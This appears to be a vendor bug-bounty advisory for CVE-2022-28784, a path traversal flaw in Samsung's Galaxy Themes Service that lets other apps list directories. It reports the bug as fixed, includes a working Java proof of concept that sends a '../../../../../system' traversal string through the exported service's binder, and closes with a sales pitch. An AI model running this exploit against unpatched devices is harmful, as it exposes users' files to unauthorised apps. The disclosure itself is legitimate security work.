

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Galaxy Themes Service</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.themecenter</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.02.13</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.05.03</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-28784">CVE-2022-28784</a> (SVE-2022-0350)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$2610</td>
    </tr>
</table>

# Description

Oversecured discovered a file path spoofing vulnerability in Galaxy Themes Service app:


While investigating, it turned out that the `com.samsung.android.thememanager.ThemeManagerService` service was exported and allowed any third-party apps to get its binder. One of the AIDL interfaces, `getWallpaperFilePath()`, would get part of the file path and concatenate it to the existing path `/data/overlays/homewallpaper/`, then return the result of the `File.listFiles()` method call back to the attacker. This led to a directory listing vulnerability via path traversal.

**Proof of Concept**
```java
public static final int TRANSACTION_getWallpaperFilePath = 44;

private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        processBinder(service);
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.samsung.android.themecenter", "com.samsung.android.thememanager.ThemeManagerService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder(IBinder binder) {
    try {
        Parcel parcel = Parcel.obtain();
        parcel.writeInterfaceToken("com.samsung.android.thememanager.IThemeManager");
        parcel.writeString("../../../../../system");

        Parcel reply = Parcel.obtain();

        binder.transact(TRANSACTION_getWallpaperFilePath, parcel, reply, 0);
        reply.readException();
        Log.d("evil", "Listing: " + reply.createStringArrayList());
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.